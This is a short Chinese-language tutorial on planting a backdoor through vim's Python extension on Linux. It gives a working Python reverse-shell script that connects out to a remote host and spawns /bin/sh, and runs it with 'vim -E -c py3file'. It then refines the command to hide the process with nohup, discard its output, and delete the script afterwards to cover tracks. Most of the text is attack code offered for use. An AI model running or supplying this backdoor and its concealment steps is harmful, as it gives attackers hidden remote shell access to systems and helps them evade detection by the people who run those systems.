




# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统

**vim --version**可以看到vim支持python3


**构造一个反弹shell脚本**
test.py

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("203.0.113.1",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## 

**执行**

```
vim -E -c "py3file test.py"
```

执行完之后命令行界面就会一片空白如下图所示，属正常现象，此时关闭命令行界面，也不会影响已经反弹回去的shell


**接收到的shell：**


此时可以看到可疑的 vim 连接

## 

但是这样的后门太明显了，而且 **vim -E -c “py3file test.py”** 命令执行之后，还会有一个空白窗口。

**我们需要隐藏一下：**

从以下两点出发：

1、

```
(nohup vim -E -c "py3file test.py"> /dev/null 2>&1 &)

#将nohup的执行结果输出到/dev/null中
#其中/dev/null在linux中代表空设备，结果输出到空设备也就是丢弃nohup的执行结果。
#“2”在linux中代表错误输出，“1”在linux中代表标准输出，在此处也就是nohup的输出。2>&1表示将错误输出绑定到标准输出上，在此处也就是将错误输出同样输出到空设备上不进行显示。这样，无论nohup执行结果是否正确，都不会有输出。
```

2、既然是后门，那么就不能留下自己创建的文件，可以将删除命令直接拼接到命令上

因为我们**最终的执行命令**为：

```
(nohup vim -E -c "py3file test.py"> /dev/null 2>&1 &) && sleep 2 && rm -f test.py
```
